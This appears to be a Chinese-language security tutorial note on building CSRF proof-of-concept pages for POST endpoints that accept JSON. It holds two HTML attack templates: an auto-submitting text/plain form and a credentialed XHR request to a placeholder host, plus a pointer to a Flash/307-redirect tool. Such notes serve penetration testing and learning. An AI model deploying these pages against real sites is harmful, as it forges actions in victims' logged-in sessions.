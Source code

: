 ## JSON格式下的CSRF漏洞利用
### 介绍
GET型的CSRF一般比较简单，这里介绍POST型的CSRF漏洞的POC构造。</br>
但是在POST类型的接口或者URL中，会出现一种JSON格式的入参，构造POC有一些注意点，这里主要对此做一些记录。</br>

### 漏洞利用 
#### （一）常规POC
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/1.png height="300" width="650">
首先使用常规POC，可使用BurpSuite的“Engagement Tools-Generate CSRF PoC”功能生成，如下：</br>

```html
<html>
<body>
	<form name="zzz" action="https://aaa.com" method="POST" enctype="text/plain">
		<input type="hidden" name='json入参' value='json入参产生“=”，此处设法闭合'/>
	</form>
	
	<script type="text/javascript">
		document.zzz.submit();
	</script>
</body>
</html>
```
使用上述常规POC会发现，响应报415，“Unsupported Media Type”，意为不支持的媒体类型;</br>
这是由于HTML文件中“enctype="text/plain"”造成的。</br>
抓包可以看到JSON入参后面跟了一个“=”符号。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/2.png height="300" width="650">
这种情况下，这种情况下服务端的JSON解析器可能会拒绝这段JSON，因为它不符合JSON的数据格式。 这时候我们可以给value赋值从而对=后的数据进行补全，使其构造成一个完整的json格式，可以避免解析器报错。具体的构造由name和value两个入参来进行，将"="封进JSON的入参中去，效果如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/4.png height="300" width="650">

#### （二）通过XHR提交
上述（一）最后如果还是响应415状态码，那么可能就是服务端校验了Content-Type类型，该请求字段只能为application/json。如此，可通过XHR提交入参，如下所述。</br>
在通过HTML form提交生成的POST请求中，请求头的Content-Type由form元素上的enctype属性指定;现在enctype只有如下三种属性值：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/3.png height="300" width="650">
其中text/plain可以满足JSON入参类型，但是其在用户请求时，相应请求体字段自动转换为了application/x-www-form-urlencoded。如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/5.png height="300" width="650">
当跨域影响用户数据HTTP请求(如用XMLHttpRequest发送post)时，浏览器会发送预检请求(OPTIONS请求)给服务端征求支持的请求方法，然后根据服务端响应允许才发送真正的请求。 然而如果服务端对Content-Type进行校验，则不会响应这个OPTIONS请求，从而利用失败。</br>

所以在此场景下，这一思路是行不通的。但是更多的情况下服务端可能不会校验Content-Type，或者不会严格校验Content-Type是否为application/json，所以很多情况下这是可用的。</br>
新的POC如下：</br>
```html
<html>
<body>
	<script>
		function submitRequest(){
			var xhr = new XMLHttpRequest();
			xhr.open("POST","https://aaa.com",true);
			xhr.setRequestHeader("Accept","*/*");
			xhr.setRequestHeader("Accept-Language","zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
			xhr.setRequestHeader("Content-Type","application/json");
			xhr.withCredentials = true;
			xhr.send(stringify(json入参));
		}
	</script>

	<form action="#">
		<input type="button" value="Submit Request" onclick="submitRequest();"/>
	</form>
</body>
</html>
```

#### （三）借助flash，利用307跳转实现CSRF
1.制作一个Flash文件</br>
2.制作一个跨域XML文件</br>
3.制作一个具有307状态码的php文件</br>
已经有大牛造好轮子了，参考：https://github.com/sp1d3r/swf_json_csrf</br>
